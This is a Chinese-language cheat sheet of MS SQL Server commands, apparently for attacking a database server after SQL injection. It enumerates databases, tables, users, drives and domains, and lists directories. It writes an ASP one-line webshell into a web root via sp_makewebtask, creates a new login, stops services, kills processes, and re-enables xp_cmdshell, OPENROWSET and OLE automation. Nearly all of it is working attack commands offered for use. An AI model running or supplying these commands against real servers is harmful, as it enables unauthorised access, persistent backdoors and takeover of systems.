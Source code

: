 –取得所有数据库名 包括系统数据库
–SELECT name FROM master.dbo.sysdatabases
– 取得所有非系统数据库名
–select [name] from master.dbo.sysdatabases where DBId>6 Order By [Name]
–取所有信息,包括数据库文件地址
–select * from master.dbo.sysdatabases where DBId>6 Order By [Name]

该条语句查询返回所有的用户表
 
select * from sysobjects where xtype='u'
 
查询系统所有数据表信息
 
select * from sysobjects

查看机器名
select * from sys.servers


列目录
exec master.dbo.xp_subdirs 'c:\’

exec master.dbo.xp_dirtree ‘c:’,1,1 db_owner权限可以执行

exec master.dbo.xp_dirtree ‘c:/Program Files’,1,1


程序代码,写入webshell

exec master.dbo.xp_subdirs ‘d:\web\www.xx.com’;
exec sp_makewebtask ‘d:\web\www.XXXX.com\XX.asp’,'select”<%execute(request(“SB”))%>”



execute master..xp_enumgroups	遍历系统用户

execute master..xp_getnetname 获取当前机器名

 --列出服务器上固定驱动器,以及每个驱动器的可用空间
execute master..xp_fixeddrives   //dbo public

execute xp_ntsec_enumdomains

--创建个登陆mssql的帐号
exec master.dbo.sp_addlogin name,pass;--



--列出服务器域名
xp_ntsec_enumdomains //机器名 //dbo public

--停止或者启动某个服务
xp_servicecontrol 'stop','schedule' //schedule是服务得名称   //dbo

--用pid来停止某个执行中的程序
xp_terminate_process 123 //123是pid //dbo

--只列某个目录下的子目录
dbo.xp_subdirs 'C:' //dbo

sql server 2005下开启xp_cmdshell的办法
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
SQL2005开启'OPENROWSET'支持的方法：
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;
SQL2005开启'sp_oacreate'支持的方法:
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
